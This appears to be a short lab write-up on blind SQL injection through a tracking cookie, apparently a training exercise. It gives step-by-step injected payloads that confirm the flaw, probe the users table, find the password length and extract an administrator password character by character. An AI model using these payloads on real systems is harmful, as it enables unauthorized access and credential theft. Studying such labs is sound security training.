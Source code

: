 

## Lab analysis 
- result of sql query is not returned
- also no error message is displayed
- But "welcome back" message is displayed if the query return any row

## Aim : Find administrator password form users table having columns username and password


## Burp:
Cookie: TrackingId=tJ1ux5PVRUX2vGYM;

## checking if vulnrable to sqli or not

`Cookie: TrackingId=tJ1ux5PVRUX2vGYM ' and 1=1 --; ` -> return Welcome back message
`Cookie: TrackingId=tJ1ux5PVRUX2vGYM ' and 1=2 --; ` -> doesnot return Welcome back message

## checking user table exist or not.

`Cookie: TrackingId=tJ1ux5PVRUX2vGYM ' and (select 'x' from users ) = 'x' -- ` 
return welcome back message -> users table exist

## checking if administrator username exist in users table

`Cookie: TrackingId=tJ1ux5PVRUX2vGYM ' and (select username from users where username = 'administrator') = 'administrator' -- `

return welcome back message -> users table exist


## Finding the length of password

`Cookie: TrackingId=tJ1ux5PVRUX2vGYM ' and (select length(password) from users where username = 'administrator')>0 -- `

continuing the loop
we got the length to be 20



## Finding the password

`Cookie: TrackingId=tJ1ux5PVRUX2vGYM ' and (select substring(password ,1,1) from users where username = 'administrator')= 'a' -- `

we found the password to be:
baw6dlog9hpv7tfxus9l





























